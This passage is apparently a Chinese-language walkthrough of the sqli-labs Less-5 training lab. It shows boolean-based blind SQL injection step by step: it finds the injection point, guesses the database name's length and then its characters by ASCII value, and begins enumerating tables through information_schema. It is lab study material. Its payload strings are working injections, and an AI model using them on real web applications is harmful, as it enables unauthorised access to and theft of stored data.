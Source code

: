 ?id=1'             加上' 后报错，证明存在注入点
尝试是否为数字型
?id=1 and 1=1
?id=1 and 1=2      页面没有区别出真假注入点
尝试字符型
?id=1’ and 1=1 --+
```

#### ?id=1' and 1=2 --+  有区别出假注入点，没有了回显，less5是**布尔型盲注**。

#### 并且可以利用 真or否 来盲注

![image-20250903161305249](images/image-20250903161305249.png)



------

## 🔎 第二步：确认当前数据库名

用 `database()` 判断。

例子：

```
?id=1' and database()='security' --+
```

如果页面正常，说明当前数据库名是 `security`。
 否则继续猜。

更常用的办法是先猜长度：

```
?id=1' and length(database())=8 --+
```

如果正确 → 数据库名长度是 8。

再逐字符猜：

```
?id=1' and ascii(substr(database(),1,1))=115 --+
```

👉 如果页面正常，说明数据库名第一个字母 ASCII=115，即 `s`。

------

## 🔎 第三步：枚举表名

拿 `information_schema.tables`：

```
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=5 --+
```

判断第一张表的表名长度是不是 5。

再猜字符：

```
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=117 --+
```
```